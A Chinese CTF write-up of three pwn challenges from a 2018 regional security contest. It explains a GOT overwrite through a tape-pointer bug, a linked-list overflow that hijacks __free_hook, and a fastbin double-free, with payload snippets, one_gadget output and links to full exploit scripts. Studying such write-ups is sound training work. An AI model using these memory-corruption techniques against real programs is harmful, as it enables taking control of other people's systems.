






2018西普杯全国高校信息安全铁人三项大赛-河南赛区个人赛出了三道pwn,简单做了一下，在这里分享一下我的做题记录以及思路。

题目下载地址：https://github.com/moonAgirl/CTF/tree/master/2018/TieRan/HN

# brain-stack

程序提供了四个命令

	> : tape_ptr 地址减一
	< : tape_ptr 地址加一
	R : 读取tape_ptr 地址保存的四个字节
	W : 往tape_ptr 地址处写入四个字节

这里能想到两个思路：

## 思路一

先将tape_ptr一直减，减到got段区

再利用R命令泄露libc地址，因为题目提供了libc，就可以计算出所需要的符号地址，我这里是通过计算one_gadgets地址

one_gadgets项目地址：https://github.com/david942j/one_gadget

one_gadgets使用命令：

	$ one_gadget ./libc32
	0x3a80c	execve("/bin/sh", esp+0x28, environ)
	constraints:
	  esi is the GOT address of libc
	  [esp+0x28] == NULL
	
	0x3a80e	execve("/bin/sh", esp+0x2c, environ)
	constraints:
	  esi is the GOT address of libc
	  [esp+0x2c] == NULL
	
	0x3a812	execve("/bin/sh", esp+0x30, environ)
	constraints:
	  esi is the GOT address of libc
	  [esp+0x30] == NULL
	
	0x3a819	execve("/bin/sh", esp+0x34, environ)
	constraints:
	  esi is the GOT address of libc
	  [esp+0x34] == NULL
	
	0x5f065	execl("/bin/sh", eax)
	constraints:
	  esi is the GOT address of libc
	  eax == NULL
	
	0x5f066	execl("/bin/sh", [esp])
	constraints:
	  esi is the GOT address of libc
	  [esp] == NULL

之后利用W命令将one_gadgets写入got，我选择写入write_got,写入以后，再之后调用write函数时就相当于调用one_gadget.get shell!.

脚本地址：https://github.com/moonAgirl/CTF/blob/master/2018/TieRan/HN/brain-stack/brain-stack1.py

## 思路二

程序中将栈地址保存进了bss段

我们将libc泄露，计算one_gadget.再泄露栈地址，计算函数返回地址

再利用<命令一直减到返回地址，将返回地址覆盖为one_gadgets.那么在函数返回时即可get shell.

脚本地址：https://github.com/moonAgirl/CTF/blob/master/2018/TieRan/HN/brain-stack/brain-stack2.py

这题和pwnbale.kr上的一道题brainfuck很相似，大家可以去看一下

# game4

这题采用单链表形式存储申请的node，相关结构体如下：

	t_node	struct {
		fn_cleanup cleanup; 
		t_node *next;
		t_entry entry;
	}
	
	t_entry	struct {
		char name[32];
		char phone_number[16];
	}

漏洞点在于编辑name和phone时可以有机会覆盖下一结构的内容

那么我们先申请两个节点

	add('aaaa','1111')#1
	add('bbbb','2222')#2

通过第一个节点将第二个节点的next域改写为got段地址

	payload = 'Y'*(16 + 16 + 8) + '\xe8\x1f\x60'
	edit(1,'cccc',payload)

这样我们就伪造了第三个节点，下面我们输出三号节点的内容就可以泄露libc地址，进而计算相关符号地址

之后故技重施，通过第一个节点将第二个节点的next域改写为free_hook地址

	payload = 'Y'*(16 + 16 + 8) + chr(int(a1,16))+chr(int(a2,16))+chr(int(a3,16))+chr(int(a4,16))+chr(int(a5,16))+chr(int(a6,16))
	edit(1,'cccc',payload)

之后编辑三号node就可以往free_hook地址处写，我们写入one_gadget,这样在调用free函数时就可以get shell.

脚本地址：https://github.com/moonAgirl/CTF/blob/master/2018/TieRan/HN/game4/ctf.py

# xueba

这题开启了所有保护，并且程序段也开启了随机化。

这题我尝试了两个思路，第一个失败了

## 思路一(失败）

因为程序在free之后没有清空指针，造成uaf

所以这里我先申请两个堆块，再将它们释放，再申请一块堆，新申请的堆是前边两个堆框大小的和，这样就可以控制前边两个堆块的内容

我们再堆中构造一个fake_chunk，再释放之前释放的2号堆，就可以通过unlink，之后就是套路了。

可是这里开启了程序段随机化，我不知道bss段地址，无法获取保存堆地址的bss地址，因此思路一失败。

## 思路二(成功）

思路一失败之后，我开始把目光转向fastbin attack.调试了一番发现可行

	add(0x60,'a'*0x10 + '\x01','1'*0x28)#1
	add(0x60,'a'*0x8 + 'b','1'*0x28)#3
	
	remove(1)
	remove(3)
	edit(1,'\x00\x01')
	remove(1)

如上代码所示，先申请两块0x60大小的堆块，再利用double free在fastbin里造成loop chunk.
	
	off = 0x7fa069cfab10 - 0x7fa069cfaaf5
	addr = data - 0x68 - off
	
	add(0x60,'a'*8,p64(addr - 8))#1
	add(0x60,'a'*8,p64(addr - 8))#3
	add(0x60,'a'*8,p64(addr - 8))#4
	print 'one_gadget:' + hex(libc_base + 0x4526a)
	padd = 0x7fa069cfab10 - (0x7fa069cfaaf5 + 8)
	add(0x60,'a'*8,'a'*padd + p64(libc_base + 0x4526a))#4

如上代码所示，我先申请了一块堆块并将该堆块的fd域覆盖为free_hook对应的地址，这样在之后的fastbin申请中我们可以申请到free_hook地址处的内存，并对free_hook进行写入，我么依旧写入one_gadget.

这样在调用free函数时就可以get shell.

脚本地址：https://github.com/moonAgirl/CTF/blob/master/2018/TieRan/HN/xueba/xueba.py

# 总结

总的来说这几个题目不算难，因为今年也参加了铁人三项，所以在吾爱破解上看到有人分享题目就下载下来做了一下。希望我自己比赛的时候可以发挥好一点。

相关链接：https://www.52pojie.cn/thread-735986-1-1.html

